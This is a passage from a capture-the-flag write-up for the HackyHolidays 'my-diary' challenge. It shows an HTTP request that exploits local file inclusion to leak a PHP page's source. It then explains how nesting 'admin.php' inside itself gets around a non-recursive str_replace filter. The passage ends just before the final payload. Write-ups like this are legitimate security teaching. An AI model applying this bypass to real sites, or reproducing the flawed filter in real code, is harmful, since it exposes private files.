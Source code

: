 
# flag6 /my-diary/

Grinch diary screams for LFI (Local File Inclusion)

	https://hackyholidays.h1ctf.com/my-diary/?template=entries.html

and at least it's true in its current directory. If we simply try to get the `index.php` we otbain the source code:


```
GET /my-diary/?template=index.php HTTP/1.1
Host: hackyholidays.h1ctf.com

...

<?php
if( isset($_GET["template"])  ){
    $page = $_GET["template"];
    //remove non allowed characters
    $page = preg_replace('/([^a-zA-Z0-9.])/','',$page);
    //protect admin.php from being read
    $page = str_replace("admin.php","",$page);
    //I've changed the admin file to secretadmin.php for more security!
    $page = str_replace("secretadmin.php","",$page);
    //check file exists
    if( file_exists($page) ){
       echo file_get_contents($page);
    }else{
        //redirect to home
        header("Location: /my-diary/?template=entries.html");
        exit();
    }
}else{
    //redirect to home
    header("Location: /my-diary/?template=entries.html");
    exit();
```

The usage of `strreplace` has a classic vulnerability: it will not recursively remove all `admin.php` occurences. If we start from 

	XXXadmin.phpYYY
	
what remains is

	XXXYYY
	
So for instance

	adminadmin.php.php --> admin.php


The following payload gets the source code of `secretadmin.php` (which contains the flag), despite the extra layer of "security":
